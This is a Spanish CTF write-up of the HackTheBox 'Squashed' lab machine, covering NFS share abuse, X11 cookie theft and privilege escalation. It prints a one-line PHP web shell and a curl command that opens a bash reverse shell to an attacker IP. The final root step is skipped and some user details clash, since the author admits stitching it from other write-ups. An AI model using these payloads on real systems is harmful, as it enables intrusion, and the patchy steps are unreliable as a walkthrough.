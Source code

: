 # Máquina "Squashed" de HackTheBox

## Características

- Linux
- Easy
- NFS Enumeration
- Abusing owners assigned to NFS shares by creating new users on the system (Get access to Web Root)
- Creating a web shell to gain system access
- Abusing the Xauthority file (Pentest X11)
- Taking a Screenshot of another user's display

## Útil en

- OSCP

**IP:** 10.10.11.191

## Escaneo de puertos

```bash
nmap -p- --min-rate 10000 10.10.11.191
```

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41527/tcp open  unknown
43109/tcp open  unknown
57809/tcp open  unknown
58777/tcp open  unknown
```

```bash
nmap -p 22,80,111,2049,41527,43109,57809,58777 -sCV 10.10.11.191
```

```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38017/udp   mountd
|   100005  1,2,3      38441/udp6  mountd
|   100005  1,2,3      39221/tcp6  mountd
|   100005  1,2,3      57809/tcp   mountd
|   100021  1,3,4      34926/udp   nlockmgr
|   100021  1,3,4      35429/tcp6  nlockmgr
|   100021  1,3,4      41527/tcp   nlockmgr
|   100021  1,3,4      50850/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
41527/tcp open  nlockmgr 1-4 (RPC #100021)
43109/tcp open  mountd   1-3 (RPC #100005)
57809/tcp open  mountd   1-3 (RPC #100005)
58777/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Análisis de puertos

- **22 SSH:** Si podemos adquirir credenciales, podremos iniciar sesión de forma remota
- **80 HTTP:** Se está alojando un servidor web con el título "Built Better"
- **111 RPC:** Llamada a procedimiento remoto que se puede utilizar para administrar remotamente el servidor
- **2049 NFS:** Un archivo compartido NFS

## Reconocimiento Web

Si visitamos la web vemos:

![Web Principal](/secciones/posts/imagenes/squashed/web1.webp)

## Enumeración NFS

Probamos conectarnos a RPC sin credenciales sin éxito. Podemos usar `showmount` para enumerar los archivos compartidos por NFS:

```bash
showmount -e 10.10.11.191
```

Vemos que `/home/ross` y `/var/www/html` están disponibles. Intentemos conectarnos al archivo compartido `/home/ross`:

![Ross Mount 1](/secciones/posts/imagenes/squashed/ross.webp)
![Ross Mount 2](/secciones/posts/imagenes/squashed/ross2.webp)

Vemos varios archivos, los listamos y procedemos a crear unos nuevos:

```bash
mkdir /tmp/www
mkdir /tmp/home_test
```

Montamos los archivos compartidos:

![Ross Mount 3](/secciones/posts/imagenes/squashed/ross3.webp)

Vemos los archivos:

```bash
tree -fas ./home_test
```

## Creación de usuarios para NFS

Creamos un nuevo usuario y le asignamos permisos:

```bash
sudo useradd new
sudo usermod -u 2017 new
sudo groupmod -g 2017 new
```

Cambiamos el usuario a root y luego cambiamos el usuario a new:

```bash
sudo su
su new
```

Lanzamos bash y creamos un shell en el directorio `/tmp`:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /tmp/www/shell.php
```

## Obtención de shell inverso

Ahora obtenemos el shell inverso:

```bash
curl "http://10.10.11.191/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.134/443%200%3E%261%22"
```

Y tenemos shell como alex, así que buscamos la flag de usuario.

## Enumeración adicional

Ejecutamos el comando `tree` en `home_test`, y en la salida vemos `documents/passwords.kdbx`. Lo enviamos a nuestra carpeta.

Ahora crearemos otro usuario:

```bash
sudo useradd user
sudo usermod -u 1001 user
```

Iniciamos sesión en este usuario desde nuestro root, para proceder enumerando el archivo:

```bash
ls -l ./.Xauthority
```

## Explotación de X11

Ejecutamos un servidor Python:

```bash
python3 -m http.server 8080 .
```

Y desde alex hacemos:

```bash
wget http://10.10.14.134:8080/.Xauthority
```

Ahora desde alex:

```bash
export HOME=/home/alex
```

## Escalada de privilegios

Ahora desde alex ingresamos con nuestra clave:

```bash
su root
```

Y somos root.

---

**Nota:** Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.